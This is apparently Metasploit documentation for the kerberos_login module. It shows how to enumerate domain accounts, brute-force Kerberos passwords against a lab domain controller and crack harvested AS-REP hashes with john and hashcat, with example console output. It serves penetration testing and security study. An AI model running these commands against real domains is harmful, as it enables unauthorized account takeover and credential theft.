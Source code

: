 ## Kerberos Login/Bruteforce

The `auxiliary/scanner/kerberos/kerberos_login` module can verify Kerberos credentials against a range of machines and
report successful logins. If you have loaded a database plugin
and connected to a database this module will record successful
logins and hosts so you can track your access. It will also
store kerberos tickets that can be used even after the user's
password has been changed.

Kerberos accounts which do not require pre-authentication will
have the TGT logged for offline cracking, this technique is known as AS-REP Roasting.

This module is able to identify the following information from the KDC: 

- Valid/Invalid accounts
- Locked/Disabled accounts
- Accounts with expired passwords, when the password matches
- AS-REP Roastable accounts

## Target

To use the `kerberos_login` module, make sure you are able to connect to the
Kerberos service on a Domain Controller.

## Scenarios

### Creating a single Kerberos ticket (TGT)

To create a single Kerberos ticket (TGT), set the username and password options:

```msf
msf6 auxiliary(scanner/kerberos/kerberos_login) > run rhost=192.168.123.133 domain=DEMO.local username=basic_user password=password verbose=true
[*] Using domain: DEMO.LOCAL - 192.168.123.133:88   ...
[+] 192.168.123.133 - User found: "basic_user" with password password
[*] Auxiliary module execution completed
```

### Auth Brute

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user
accounts and additionally bruteforcing passwords:

Create a new `./users.txt` file and `./wordlist.txt`, then run the module:

```msf
msf6 auxiliary(gather/kerberos_enumusers) > run rhost=192.168.123.133 domain=DEMO.local user_file=./users.txt pass_file=./wordlist.txt verbose=true
[*] Using domain: DEMO.LOCAL - 192.168.123.133:88   ...
[+] 192.168.123.133 - User: "basic_user" is present
[*] 192.168.123.133 - User: "basic_user" wrong password invalid2
[*] 192.168.123.133 - User: "basic_user" wrong password p4$$w0rd
[*] 192.168.123.133 - User: "basic_user" wrong password test_password
[+] 192.168.123.133 - User found: "basic_user" with password password. Hash: $krb5asrep$23$basic_user@DEMO.LOCAL:959b983f9cffc093002d9cd8a20...etc...
[*] 192.168.123.133 - User: "foo" user not found
[*] 192.168.123.133 - User: "foo_bar" user not found
[+] 192.168.123.133 - User: "Administrator" is present
[*] 192.168.123.133 - User: "Administrator" wrong password invalid2
[*] 192.168.123.133 - User: "Administrator" wrong password p4$$w0rd
[*] 192.168.123.133 - User: "Administrator" wrong password test_password
[*] 192.168.123.133 - User: "Administrator" wrong password password
[+] 192.168.123.133 - User: "no_pre_auth" does not require preauthentication. Hash: $krb5asrep$23$no_pre_auth@DEMO.LOCAL:a714f0553589cbd78...etc...
[+] 192.168.123.133 - User: "admin" is present
[*] 192.168.123.133 - User: "admin" wrong password invalid2
[*] 192.168.123.133 - User: "admin" - Kerberos Error - KDC_ERR_KEY_EXPIRED (23) - Password has expired - change password to reset
[*] 192.168.123.133 - User: "admin" wrong password test_password
[*] 192.168.123.133 - User: "admin" wrong password password
[*] Auxiliary module execution completed
```

### ASREPRoasting

Accounts that have `Do not require Kerberos preauthentication` enabled, will receive an ASREP response with a ticket-granting-ticket present.
The technique of cracking this ticket offline is called ASREPRoasting.

Cracking ASREP response with John:

```
john ./hashes.txt --wordlist=./wordlist.txt --format:krb5asrep
```

Cracking ASREP response with Hashcat:

```
hashcat -m 18200 -a 0 ./hashes.txt ./wordlist.txt
```

You can see previously cracked creds with:

```
creds -v
```

## Options

The `kerberos_login` module only requires the `RHOST`, `DOMAIN` and
`USER_FILE` options to run.

**The DOMAIN option**

This option is used to specify the target domain. If the domain name is
incorrect an error is returned and domain user account enumeration will fail.

An example of setting DOMAIN:

```
set DOMAIN [domain name]
```

**The USER_FILE option**

This option is used to specify the file containing a list of user names
to query the Domain Controller to identify if they exist in the target domain
or not. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

**The PASS_FILE option**

If you happen to manage all the found passwords in a separate file, then this option would be
suitable for that. One per line.

```
set PASS_FILE [path to file]
```

**The USERPASS_FILE option**

If each user should be using a specific password in your file, then you can use this option. One
username/password per line:

```
set USERPASS_FILE [path to file]
```

**The DB_ALL_CREDS option**

This option allows you to reuse all the user names and passwords collected by the database:

```
set DB_ALL_CREDS true
```

**The DB_ALL_PASS option**

This option allows you to reuse all the passwords collected by the database.

```
set DB_ALL_PASS true
```

**The DB_ALL_USERS option**

This option allows you to reuse all the user names collected by the database.

```
set DB_ALL_USERS true
```

**The Timeout option**

This option is used to specify the TCP timeout i.e. the time to wait
before a connection to the Domain Controller is established and data read.

An example of setting Timeout:

```
set Timeout [value in seconds]
```
